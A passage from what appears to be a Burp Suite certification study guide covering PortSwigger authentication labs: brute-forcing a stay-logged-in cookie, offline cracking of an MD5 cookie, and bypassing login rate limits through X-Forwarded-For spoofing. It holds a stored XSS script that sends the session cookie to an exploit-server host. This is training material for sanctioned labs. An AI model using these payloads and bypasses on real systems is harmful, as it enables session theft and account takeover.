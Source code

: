 ![stay-logged-in](images/stay-logged-in.png)  

>The exploit steps below plus the Intruder Payload processing rules in order and including the GREP option in sequence before starting the attack.  
  
1. Logout as current user.  
2. Send the most recent GET /my-account request to Burp Intruder.  
3. Select the cookie: ```stay-logged-in``` as injection position.  
4. Hash: ```MD5```  
5. Add prefix: ```carlos:```  
6. Encode: ```Base64-encode```  
7. Add **GREP** under settings tab, to check for the string in the response ```Update email``` indicating successfully logged in attack.  
  
![brute](images/brute.png)  

[PortSwigger Lab: Brute-forcing a stay-logged-in cookie](https://portswigger.net/web-security/authentication/other-mechanisms/lab-brute-forcing-a-stay-logged-in-cookie)  
  
### Stay-logged-in Offline Crack  
  
>The blog application comment function is vulnerable to [stored XSS](#stored-xss), use the below payload in blog comment to send the session cookie of Carlos to the exploit server.  

```
<script>
document.location='https://EXPLOIT.net/StealCookie='+document.cookie
</script>
```  
  
>Base64 decode the ```stay-logged-in``` cookie value and use an online **MD5** hash crack station database.  

![stay-logged-in Offline](images/stay-logged-in-offline.png)  

[PortSwigger Lab: Offline password cracking](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking)  

### Brute Force Protected Login  

>***Identified*** brute force protection on login when back-end enforce 30 minute ban, resulting in **IP blocked** after too many invalid login attempts. Testing ```X-Forwarded-For:``` header result in bypass of brute force protection. Observing the response time with long invalid password, mean we can use **Pitchfork** technique to ***identify*** first valid usernames with random long password and then rerun intruder with **Pitchfork**, set each payload position attack iterates through all sets simultaneously.  

[Burp Lab Username, Password and directory fuzzing Word lists](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/tree/main/wordlists)  

>Payload position 1 on IP address for ```X-Forwarded-For:``` and position 2 on username with a long password to see the **response time delay** in attack columns window.  

```
X-Forwarded-For: 12.13.14.15
```
